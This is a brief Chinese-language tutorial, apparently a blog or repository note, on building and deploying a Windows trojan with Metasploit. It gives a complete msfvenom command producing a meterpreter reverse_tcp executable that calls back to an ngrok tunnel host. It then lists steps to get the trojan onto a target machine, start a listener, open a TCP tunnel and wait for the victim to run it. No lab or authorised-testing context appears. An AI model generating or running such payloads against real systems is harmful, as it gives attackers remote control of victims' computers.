

1.打开msfconsole

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=14444 -f exe -o .exe
```

2.输入上述命令进行木马制作

在目标文件夹下生成木马软件


3.木马到达目标主机


4.打开攻击机利用模块


5.设置payload 的监听端口


6.等待连接


7.开启tcp内网穿透


8.点击运行木马
